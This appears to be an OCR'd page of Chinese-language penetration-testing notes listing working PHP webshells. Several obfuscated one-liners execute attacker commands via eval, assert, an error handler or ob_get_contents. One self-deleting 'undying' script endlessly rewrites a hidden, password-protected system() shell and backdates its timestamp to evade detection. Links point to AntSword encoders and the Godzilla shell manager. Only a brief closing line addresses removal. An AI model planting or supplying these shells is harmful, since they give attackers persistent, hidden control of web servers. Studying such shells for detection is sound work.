 ```php
5:
<?php
//a=system|whoami
function myErrorHandler($errno, $errstr, $errfile, $errline)
{
	$a = explode('|', $errstr);
	$a[0]($a[1]);
}
set_error_handLer("myErrorHandler");

trigger_error($_GET["a"], E_USER_ERROR);
?>

6:
<?php
define('Y', count($_GET)+114);
define ("YEAR", 'ob_get_content'.chr(Y));
echo $_GET["c"];//?c=phpinfo();
$c = YEAR;
$string = $c();
eval($string);
?>

7:
//php版本小于7.1，assert可使用时才可
<?php
class test1
{
    public static function test2()
    {
        forward_static_call("assert", @$_REQUEST['x']);//?x=phpinfo()
    }
}
test1::test2();
?>

8:
<?php @eval(false ? 1 : $_POST[1]);//1=phpinfo();
```

[蚁剑自定义编码器](https://github.com/AntSwordProject/AwesomeEncoder/tree/master/php)
[攻防礼盒：哥斯拉Godzilla Shell管理工具](https://www.freebuf.com/sectool/247104.html)
**内存马：**
```php
<?php
	set_time_limit(0);			//设置脚本最大执行时间,0 即为无时间限制
	ignore_user_abort(true);	//设置与客户机断开不终止脚本的执行
	unlink(__FILE__);			//删除文件自身
	$file = '/var/www/html/.shell.php';	
	$code = '<?php if(md5($_POST["pass"])=="cdd7b7420654eb16c1e1b748d5b7c5b8"){@system($_POST[a]);}?>';
	while (1) {
		file_put_contents($file, $code);	//写shell文件
		system('touch -m -d "2014-10-31 13:50:11" .shell.php');		//修改时间戳
		usleep(1000);			//以指定的微秒数延缓程序的执行
	}
?>
```
[Filter/Servlet型内存马的扫描抓捕与查杀 ](https://gv7.me/articles/2020/filter-servlet-type-memshell-scan-capture-and-kill/)
[查杀Java web filter型内存马 ](https://gv7.me/articles/2020/kill-java-web-filter-memshell/)
杀死PHP不死马:
>1、高权限，重启服务
service apache2 restart